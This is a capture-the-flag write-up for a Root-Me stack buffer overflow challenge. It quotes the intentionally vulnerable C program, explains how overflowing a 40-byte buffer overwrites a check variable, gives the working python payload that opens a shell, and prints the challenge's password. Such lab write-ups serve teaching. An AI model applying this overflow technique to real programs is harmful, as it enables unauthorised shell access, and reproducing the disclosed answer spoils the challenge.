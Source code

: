 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

![image](https://user-images.githubusercontent.com/48288606/146743588-ed79be7a-e9f6-48b8-9aa2-a14343cbf808.png)

- Try inputing `aaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our **aaaa** is at **0xbffffae4**. So we need the calculate the distance just write the desired value to the proper position. 

### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
 Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
 But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
 As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Pass: 1w4ntm0r3pr0np1s


